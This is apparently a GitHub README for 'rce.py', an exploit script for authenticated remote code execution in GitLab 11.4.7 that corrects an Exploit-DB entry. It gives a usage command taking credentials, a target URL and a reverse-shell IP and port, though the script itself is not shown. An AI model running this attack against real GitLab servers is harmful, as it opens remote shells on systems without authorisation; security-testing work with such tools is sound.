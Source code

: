 # Gitlab 11.4.7 Authenticated RCE

There is a minor mistake in https://www.exploit-db.com/exploits/49334

Now, You can use rce.py to get reverse shell.

## Usage 

python3 rce.py -u Username -p Password -g http://<gitlab_url> -l <Reverse_Shell_IP> -P <Reverse_Shell_Port>

Note: check gitlab port in script if your testing environment is not hosted on default port(5080).
